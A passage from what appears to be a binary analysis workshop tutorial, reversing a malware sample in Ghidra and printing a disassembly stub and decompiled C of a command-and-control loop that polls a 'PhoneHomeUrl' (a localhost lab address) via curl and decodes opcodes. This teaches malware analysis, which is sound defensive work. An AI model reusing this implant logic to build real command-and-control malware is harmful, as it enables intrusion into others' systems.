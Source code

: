 The `localhost:3000` URL immediately sticks out and raises a "suspicious" flag. The rest of the function looks like it has some overarching logic and calls into a bunch of other functions. We'll start by drilling down each function to hope that it will eventually call one of the hashed symbols which we have looked up. The first such call is to the function `FUN_4200110`, which has a very short listing:

```asm
                  undefined FUN_42001100()
      undefined     AL:1       <RETURN>
                  FUN_42001100                          XREF[4]:  FUN_420012bf:420012e6(c),
                                                                  FUN_42001855:4200186d(c),
                                                                  FUN_42001855:420018ad(c),
                                                                  FUN_42001855:42001921(c)
 42001100 ff 25 7a 2f 00 00          JMP      qword ptr [libc.so.6.malloc]

```

So it calls the resolved `malloc`. Let's renamed it to `unpacked_malloc`.

Proceeding in a similar fashion for the remaining function calls, we eventually get a much cleaner resulting function.

```c
undefined8 maybe_dispatch_loop(void) {
  uint uVar1;
  long lVar2;
  bool bVar3;
  int curl_result;
  undefined *pShellcode;
  undefined8 uVar4;
  int iVar5;
  long in_FS_OFFSET;
  uint local_60;
  uint opcode;
  long local_28;
  uint *maybe_command;
  uint oper;

  lVar2 = *(long *)(in_FS_OFFSET + 0x28); // Stack cookie, can be ignored.
  bVar3 = false;

  // (1) Allocate a buffer to receive the command
  maybe_command = (uint *)unpacked_malloc(0x1000);
  *(undefined *)maybe_command = 0;

  // Inifinite Dispatch Loop
  do {
    opcode = 0xc339ec90; // This appears to store the opcode that will run.
    local_60 = 5;
    local_28 = 0;

    // (2) Request a command from the C&C
    if (curl_ctx != 0) {
      // Make curl request
      curl_easy_setopt(curl_ctx,0x2712,PhoneHomeUrl);
      curl_easy_setopt(curl_ctx,0x2711,&local_28);
      curl_easy_setopt(curl_ctx,0x4e2b,FUN_42001754); // This function is most likely the buffer write callback.
      curl_result = curl_easy_perform(curl_ctx);

      // (3) Check the result and decode the opcode
      if (curl_result == 0) {
        if (((uint)((ulong)(local_28 + -4) >> 0x20) & ((uint)((ulong)local_28 >> 0x20) ^ 0xffffffff)
            ) >> 0x1f == 0) {

```

[jdk]: https://docs.aws.amazon.com/corretto/latest/corretto-11-ug/downloads-list.html "Amazon Corretto"
[online]: https://advanced-binary-analysis.gosec.co "Online Workshop Environment"
[cconv]: https://en.wikipedia.org/wiki/X86_calling_conventions "X86 Calling Conventions"